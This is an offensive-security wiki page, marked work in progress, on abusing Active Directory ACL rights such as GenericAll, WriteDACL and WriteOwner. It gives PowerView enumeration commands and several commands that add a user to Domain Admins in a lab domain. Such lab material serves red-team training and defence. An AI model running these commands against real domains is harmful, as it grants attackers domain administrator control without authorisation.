 # Abusing Active Directory ACLs/ACEs

{% hint style="danger" %}
WIP
{% endhint %}

## Context

Some of the exploitable permissions:

* **GenericAll** - full rights to the object \(add users to a group or reset user's password\)
* **GenericWrite** - update object's attributes \(i.e logon script\)
* **WriteOwner** - change object owner to attacker and have full control over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password

## Execution

### GenericAll on User

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-17-14.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-23-18.png)

### GenericAll on Group

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### WriteProperty on Group

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-11-11.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-06-32.png)

## References

{% embed url="https://wald0.com/?p=112" %}

